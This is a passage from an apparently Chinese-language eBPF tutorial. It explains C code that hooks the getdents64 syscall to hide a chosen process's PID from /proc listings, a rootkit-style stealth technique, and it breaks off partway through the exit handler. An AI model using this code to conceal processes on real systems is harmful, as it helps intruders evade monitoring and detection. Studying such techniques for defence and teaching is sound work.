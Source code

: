 ```c

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);

    return 0;
}
```

在这部分代码中，我们可以看到 eBPF 程序的一部分具体实现，该程序负责在 `getdents64` 系统调用的入口处进行处理。

我们首先声明了几个全局的变量。其中 `target_ppid` 代表我们要关注的目标父进程的 PID。如果这个值为 0，那么我们将关注所有的进程。`pid_to_hide_len` 和 `pid_to_hide` 则分别用来存储我们要隐藏的进程的 PID 的长度和 PID 本身。这个 PID 会转化成 `/proc/` 目录下的一个文件夹的名称，因此被隐藏的进程在 `/proc/` 目录下将无法被看到。

接下来，我们声明了一个名为 `linux_dirent64` 的结构体。这个结构体代表一个 Linux 目录项，包含了一些元数据，如 inode 号、下一个目录项的偏移、当前目录项的长度、文件类型以及文件名。

然后是 `getdents64` 函数的原型。这个函数是 Linux 系统调用，用于读取一个目录的内容。我们的目标就是在这个函数执行的过程中，对目录项进行修改，以实现进程隐藏。

随后的部分是 eBPF 程序的具体实现。我们在 `getdents64` 系统调用的入口处定义了一个名为 `handle_getdents_enter` 的函数。这个函数首先获取了当前进程的 PID 和线程组 ID，然后检查这个进程是否是我们关注的进程。如果我们设置了 `target_ppid`，那么我们就只关注那些父进程的 PID 为 `target_ppid` 的进程。如果 `target_ppid` 为 0，我们就关注所有进程。

在确认了当前进程是我们关注的进程之后，我们将 `getdents64` 系统调用的参数保存到一个 map 中，以便在系统调用返回时使用。我们特别关注 `getdents64` 系统调用的第二个参数，它是一个指向 `linux_dirent64` 结构体的指针，代表了系统调用要读取的目录的内容。我们将这个指针以及当前的 PID 和线程组 ID 作为键值对保存到 `map_buffs` 这个 map 中。

至此，我们完成了 `getdents64` 系统调用入口处的处理。在系统调用返回时，我们将会在 `handle_getdents_exit` 函数中，对目录项进行修改，以实现进程隐藏。

在接下来的代码段中，我们将要实现在 `getdents64` 系统调用返回时的处理。我们主要的目标就是找到我们想要隐藏的进程，并且对目录项进行修改以实现隐藏。

我们首先定义了一个名为 `handle_getdents_exit` 的函数，它将在 `getdents64` 系统调用返回时被调用。

```c

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_exit(struct trace_event_raw_sys_exit *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int total_bytes_read = ctx->ret;
    // if bytes_read is 0, everything's been read
    if (total_bytes_read <= 0) {
        return 0;
    }

    // Check we stored the address of the buffer from the syscall entry
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_buffs, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // All of this is quite complex, but basically boils down to
    // Calling 'handle_getdents_exit' in a loop to iterate over the file listing
    // in chunks of 200, and seeing if a folder with the name of our pid is in there.
    // If we find it, use 'bpf_tail_call' to jump to handle_getdents_patch to do the actual
    // patching
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp = 0;
    int pid = pid_tgid >> 32;
    short unsigned int d_reclen = 0;
    char filename[MAX_PID_LEN];

    unsigned int bpos = 0;
    unsigned int *pBPOS = bpf_map_lookup_elem(&map_bytes_read, &pid_tgid);
    if (pBPOS != 0) {
        bpos = *pBPOS;
    }
```